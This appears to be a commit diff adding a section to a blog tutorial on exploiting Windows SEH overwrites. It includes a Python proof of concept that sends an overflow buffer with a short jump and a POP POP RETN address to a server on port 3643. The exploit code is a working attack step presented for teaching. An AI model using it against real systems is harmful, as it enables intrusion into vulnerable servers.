

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-09-Exploiting-SEH-Overwrites-on-Windows-with-the-use-of-Egghunters.md, in a window 1280 px wide and 1400 px high, scrolled down 6197 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-09-Exploiting-SEH-Overwrites-on-Windows-with-the-use-of-Egghunters.md

````diff
--- a/_posts/posts/2020-03-09-Exploiting-SEH-Overwrites-on-Windows-with-the-use-of-Egghunters.md
+++ b/_posts/posts/2020-03-09-Exploiting-SEH-Overwrites-on-Windows-with-the-use-of-Egghunters.md
@@ -190,3 +190,45 @@ After the PoC is executed against the server, both values are successfully overw
 ![](/assets/img/SEH/9.png)
 
 ## Hijacking the flow
+
+As it is already known where and how to overwrite the nSEH and SEH values, it is left to use a jump and a POP POP RETN instructions. In order to do this, the modules are listed:
+
+![](/assets/img/SEH/10.png)
+
+As seen, there is a module without protections being set. Let's find some POP POP RETN addresses:
+
+![](/assets/img/SEH/11.png)
+
+The first address is chosen and the PoC is updated along with the short jump:
+
+```python
+import socket
+import sys
+import struct
+
+host = sys.argv[1]
+seh = struct.pack("<I", 0x32501C49)
+nseh = "\xEB\x06\x90\x90"
+
+buffer = "A" * 804 + nseh + seh + "\xff" * 200
+
+z = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+z.connect((host, 3643))
+
+print "[*] Sending Payload!"
+
+z.send("%s\r\n" %buffer)
+
+z.close()
+```
+
+After the exploit is sent, the SEH chain is checked:
+
+![](/assets/img/SEH/13.png)
+
+Score! The nSEH value has been successfully overwritten with the short jump, and SEH has been overwritten with a POP POP RET address!
+
+If F9 (Run) is pressed in order to continue with the execution, something interesting happens:
+
+![](/assets/img/SEH/14.png)
````
